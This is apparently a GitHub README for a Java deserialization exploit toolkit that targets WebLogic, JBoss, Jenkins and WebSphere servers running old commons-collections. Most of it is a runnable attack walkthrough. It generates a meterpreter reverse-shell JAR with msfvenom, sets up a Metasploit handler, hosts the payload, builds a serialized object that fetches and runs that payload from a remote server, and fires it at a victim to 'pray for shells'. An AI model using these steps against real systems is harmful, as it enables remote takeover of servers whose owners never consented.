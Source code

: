 Java Untrusted Deserialization Exploits Tools
===

## Originally from github.com/getcode2git/exserial
---

Not much change in code here as it works a charm. However original github is all in Chinese, so for anyone fluent - please visit the original creator :)
Weblogic Versions: 10.3.6, 12.1.2, 12.1.3, 12.2.1
As for the others its probably easily discoverable - just anything running the older versions of commons-collections...

Structure
---

    .
    |____README.md
    |____exserial.jar     CommonsCollections <= 3.2.1 Exploit Gadget
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet
    | |____jenkin.py      Jenkins CLI
    | |____weblogic.py    WebLogic
    | |____websphere.py   WebSphere

---

`exserial.jar` Deserialisation Payload Generator：`CommandExec` && `ClassInject`

    $ java -jar exserial.jar
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec

Ability to call command execution：

    $ java -jar exserial.jar CommandExec
    Java Deserialise Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            

### 2. ClassInject

The `main` method used to cause the target server to dynamically load our specified JAR package and execute the specified class name.

For all you lovely testers `msfvenom` as part of the metasploit package with the `java/meterpreter/reverse_tcp` JAR payload：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
Inject `java_meterpreter_reverse_tcp.jar` into our main class within `exserial.jar` with metasploit.Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

### 3. Useage

Set that **MSF handler** running ->
` use exploit/multi/handler `

` set PAYLOAD java/meterpreter/reverse_tcp `

` set LHOST x.x.x.x `

` set LPORT 1234 `

` exploit -j `

Create a malicious **Java Meterpreter** ->
`msfvenom -p java/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f jar > my_reverse_meterpreter.jar`

Host that bad boy on your **webserver**, make sure that the victim will be able to access this ->
` mv ./my_reverse_meterpreter.jar /var/www/html/`

` service apache2 start` <- Or whatever HTTP Server you prefer :)

Generate your malicious **servlet** ->
` java -jar exserial.jar ClassInject "http://yourwebserver:port/my_reverse_meterpreter.jar" "metasploit.Payload" > exploit.ser`

Fire away and **pray for shells** ->
` python scripts/weblogic.py http://somepoorsod 7001 exploit.ser`

